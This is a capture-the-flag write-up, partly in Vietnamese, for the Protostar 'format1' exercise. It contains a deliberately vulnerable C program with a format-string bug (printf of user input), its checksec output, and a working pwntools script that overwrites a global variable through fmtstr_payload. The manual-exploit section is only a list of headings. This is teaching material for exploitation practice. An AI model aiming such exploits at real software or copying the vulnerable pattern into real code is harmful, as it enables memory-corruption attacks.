





# fmt1

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

## checksec

```terminal
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

## solution

### auto exploit 

```python
#!python3
from pwn import *
# Assume a process that reads a string
# and gives this string as the first argument
# of a printf() call
# It do this indefinitely


# Function called in order to send a payload
def send_payload(payload):
    p = process(['../protostar/format1', payload])
    log.info("payload = %s" % repr(payload))
    a = p.recvall()
    log.info("output = %s" % repr(a))
    return a

# Create a FmtStr object and give to him the function
format_string = FmtStr(execute_fmt=send_payload)
offset = format_string.offset
log.info("offset = %d" % offset)
write = {
    0x8049638: 0x40
}
#34 = size của payload tìm ra offset
payload = fmtstr_payload(offset, write)
payload = payload + b'a' * (34 - len(payload))
log.info("payload = %s" % repr(payload))
p = process(['../protostar/format1', payload])

print(p.recvall())
```



### exploit bằng cơm

tìm offset 



%n



%hn



%hhn



reference: [https://www.bluemoon.com.vn/books/taose.pdf](https://www.bluemoon.com.vn/books/taose.pdf)